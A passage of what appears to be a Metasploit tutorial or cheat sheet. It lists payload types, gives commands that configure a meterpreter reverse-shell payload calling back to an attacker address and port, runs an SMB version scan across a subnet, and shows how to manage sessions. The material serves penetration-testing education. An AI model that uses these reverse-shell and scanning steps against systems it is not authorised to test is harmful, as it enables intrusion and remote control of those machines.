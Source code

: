 |Payload Type|Purpose|
|---|---|
|`bind_tcp`|Opens a port on target, attacker connects|
|`reverse_tcp`|Target connects back to attacker|
|`meterpreter`|Advanced shell with post-exploit features|
|`cmd/unix/reverse`|Command shell for Unix systems|

### 🔹 Example: Set Reverse Shell Payload

```bash
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.1.10
set LPORT 4444
```

---

## 🛠️ 6. Auxiliary Modules

Non-exploit modules used for:

- Scanning
    
- Enumeration
    
- DoS
    
- Services
    

### 🔹 Example: SMB Scan

```bash
use auxiliary/scanner/smb/smb_version
set RHOSTS 192.168.1.0/24
run
```

---

## 🧪 7. Post-Exploitation

### 🔹 Available after getting a session

#### List sessions:

```bash
sessions
```

#### Interact with a session:

```bash
sessions -i 1
```
